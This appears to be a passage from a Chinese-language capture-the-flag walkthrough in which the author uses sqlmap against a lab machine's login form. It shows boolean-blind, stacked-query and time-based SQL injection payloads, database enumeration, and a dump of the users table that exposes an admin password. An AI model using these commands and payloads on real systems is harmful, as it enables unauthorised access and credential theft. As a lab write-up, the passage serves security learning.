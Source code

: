 尝试使用简单的 SQL 注入和不工作。让我们使用`**sqlmap**`进行更深入的检查

```
# sqlmap -u http://10.10.X.X/login --method=POST --data=username=admin&password=admin -p username,password --risk=3 --level=3 --random-agentsqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
---
**Parameter: username (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: username=-6970' OR 4968=4968-- XSZT&password=admin****Type: stacked queries
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: username=admin';SELECT SLEEP(5)#&password=admin****Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=admin' AND (SELECT 5071 FROM (SELECT(SLEEP(5)))xYzy)-- Ncar&password=admin**
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
```

看来`**username**`字段容易受到几种 sql 注入方法的攻击。现在让我们看看数据库列表

```
# sqlmap -u "http://10.10.X.X/login" --method=POST --data="username=admin&password=admin" -p "username,password" --risk=3 --level=3 --random-agent --dbs --threads 10...
available databases [2]:
[*] **information_schema**
[*] **sqhell_2**
```

只需将所有数据转储到数据库 sqhell_2 下

```
sqlmap -u "http://10.10.X.X/login" --method=POST --data="username=admin&password=admin" -p "username,password" --risk=3 --level=3 --random-agent -D sqhell_2 --dump-all --threads 10...
...
**Database: sqhell_2
Table: users
[1 entry]
+----+----------+---------------------------------+
| id | username | password                        |
+----+----------+---------------------------------+
| 1  | admin    | icantrememberthisXXXXXXXXXXXXXX |
+----+----------+---------------------------------+**
...
...
```

我们开始吧，使用暴露的凭证登录
